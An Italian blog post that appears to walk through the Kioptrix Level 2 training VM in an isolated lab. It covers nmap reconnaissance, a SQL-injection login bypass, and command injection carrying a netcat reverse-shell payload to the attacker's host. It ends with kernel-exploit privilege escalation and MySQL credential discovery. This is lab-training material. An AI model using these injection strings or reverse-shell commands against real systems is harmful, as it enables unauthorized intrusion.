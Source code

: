 ```yaml
---
layout: post
author: thesp0nge
title: "Getting Root: Kioptrix livello 2"
exercise: https://www.vulnhub.com/entry/kioptrix-level-11-2,23/
level: SEMPLICE
promotion: 
modified: 
featured: false
category: [getting-root]
tags: [walkthrough, oscp, kioptrix, getting-root]
comments: true
image:
  feature: root.png
share: true
---
```


Il secondo livello di Kioptrix non presenta particolari difficoltà. Fa parte di
quelle macchine che sto usando per ricostruire l'autostima in vista della
prossima OSCP.

## Kioptrix Livello 2

Continuiamo la serie Kioptrix ed arriviamo al livello 2 disponibile
[qui]({{page.exercise}}).

Anche questa macchina virtuale è un box Linux su cui è montata una
distribuzione CentOS obsoleta.

### Setup dell'ambiente

Per iniziare, ho scaricato la [versione corretta della macchina
virtuale](http://www.kioptrix.com/dlvm/Kioptrix_Level_2.rar). La prima versione
aveva infatti un bug nella web application. Ho lasciato configurato
[VirtualBox](https://www.virtualbox.org) affinché esegua la mia [Kali
Linux](https://www.kali.org) e la macchina target in una rete ad hoc, isolata
dal mondo esterno.

Questo si ottiene andando sulle preferenze di Virtual Box, selezionando
_Network_ ed il tab _Host-only networks_.

![Impostazioni Virtual Box]({{site.url}}/assets/images/getting-root/k1/impostazioni_virtualbox.png)

Ora che tutte le macchine, all'avvio, prenderanno un indirizzo sulla 192.168.56
possiamo partire.

La macchina 192.168.56.101 è una Kali Linux aggiornata e pronta all'uso.
La macchina 192.168.56.103 è il nostro target.

![La nostra vittima all'avvio]({{site.url}}/assets/images/getting-root/k2/target.png)

### Recon

Il primo passaggio è quello di enumerare i servizi in ascolto sulla macchina,
per cercare di capire qualcosa in più.

{%highlight sh%}
# nmap -sV -O 192.168.56.103 -oA 192.168.56.103
{%endhighlight%}

{% highlight sh %}
# Nmap 7.50 scan initiated Mon Sep 11 17:28:58 2017 as: nmap -sV -O -oA 192.168.56.103 192.168.56.103
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.103
Host is up (0.00024s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 08:00:27:87:1E:A6 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 11 17:29:14 2017 -- 1 IP address (1 host up) scanned in 16.05 seconds
{%endhighlight%}

E' stato lanciato anche un _dirb_, che però non ha trovato cose interessanti.

### Takeover narrative

Cercando con _searchexploit_, qualche exploit già pronto per le versioni
rilevate abbiamo che per CUPS c'è qualcosa che possa darmi una shell, mentre
per Apache solamente un DoS.

Navigando sulla porta 80, ci viene presentato una maschera di login di uno
pseudo portale amministrativo.

![Login]({{site.url}}/assets/images/getting-root/k2/login_page_sulla_porta_80.png)

La pagina di login era facilmente bypassabile usando la combinazione di
credenziali _admin:foo or '1'='1_.

![Login page bypassed]({{site.url}}/assets/images/getting-root/k2/login_page_bypassed.png)

Una volta autenticati, ci viene presentata una maschera che ci permette di
eseguire un ping su un indirizzo ip passato come parametro. Questo genere di
funzionalità si presta spesso a problematiche di command injection, quando
l'input non è validato correttamente.

Infatti, usando il carattere ';' come separatore, siamo in grado di far
eseguire il comando _id_.

![Command injection]({{site.url}}/assets/images/getting-root/k2/command_injection.png)

Una shell non privilegiata sulla macchina fa sempre comodo come primo
risultato, che ne pensate? 

Bene, su una finestra di terminale, ho lanciato netcat in ascolto sulla porta 443 e poi ho cercato di fare una callback alla mia macchina.

{%highlight sh%}
$ nc -lvnp 443
{%endhighlight%}

Perché uso la 443? Preferisco usare porte di servizi conosciuti, per evitare
problemi con eventuali firewall. Servizi come 21, 53, 80, 443 in uscita da un
indirizzo IP,  possono essere dei buoni candidati.

Dopo un po' di tentativi di indovinare il path di netcat, sulla macchina
target, sono riuscito ad ottenere la mia shell col comando _192.168.56.101; /usr/local/bin/nc 192.168.56.101 443 -e /bin/sh_

![Reverse shell]({{site.url}}/assets/images/getting-root/k2/unprivileged_reverse_shell.png)

Da dentro, il primo obiettivo è capire bene di quale distribuzione si sta
parlando e soprattutto quale la versione del kernel. Questo ci permette in
seguito di cercare l'exploit migliore per elevare i privilegi della nostra
shell.

![CentOS disclosure]({{site.url}}/assets/images/getting-root/k2/centos_disclosure.png)
{%highlight sh%}

$ uname -a

Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux

$ lsb_release -a
LSB Version:	:core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID:	CentOS
Description:	CentOS release 4.5 (Final)
Release:	4.5
Codename:	Final
{%endhighlight%}

Cerco quindi exploit per CentOS 4.5 e sono abbastanza fortunato.
![CentOS exploit]({{site.url}}/assets/images/getting-root/k2/centos_exploit.png)

Visto che le macchine, per come è stato creato il mini laboratorio, non escono
su Internet direttamente, carico gli exploit nella mia _/var/www/html_ e
usando wget li prelevo dal target.

Provo prima l'exploit per il CVE-2009-2698 ma, una volta caricato fallisce.
Niente shell di root al primo tentativo.

![CVE-2009-2698 failed]({{site.url}}/assets/images/getting-root/k2/exploit_1_failed.png)

Provo quindi con l'exploit per il CVE-2009-2692 e questa volta, dopo aver compilato e lanciato l'exploit ho più fortuna: sono root.

![CVE-2009-2692 succeded]({{site.url}}/assets/images/getting-root/k2/root.png)

Ho cercato un po' in lungo ed in largo la flag di questa macchina ma non l'ho
trovata. Probabilmente l'autore non l'ha messa. 

### Spinoff

Andando a vedere il codice sorgente di /var/www/html/index.php è possibile ottenere la password di MySQL dell'utente john.

![index.php info disclosure]({{site.url}}/assets/images/getting-root/k2/mysql_info_disclosure.png)

![MySQL connected as john]({{site.url}}/assets/images/getting-root/k2/mysql_connected_john.png)

E connettersi con successo al database MySQL.

![MySQL connected as john]({{site.url}}/assets/images/getting-root/k2/mysql_0.png)

Andando più a fondo è stato possibile trovare le hash delle password degli
utenti del piccolo portale.

![Application hashes]({{site.url}}/assets/images/getting-root/k2/mysql_1_hash_exposed.png)

Ed infine è stato possibile risalire alla password di root su MySQL che è
_hiroshima_.

![MySQL pwd disclosure]({{site.url}}/assets/images/getting-root/k2/mysql_2_mysql_pwd_exposure.png)



## Off by one

Anche questo livello 2 di Kioptrix non ha presentato grosse difficoltà. Resta
il punto aperto del perché l'exploit per il CVE-2009-2698 non abbia funzionato,
ma non ho investigato nel dettaglio, visto lo scopo di queste esercitazioni.

Il livello 3 di Kioptrix mi aspetta.

Enjoy it!
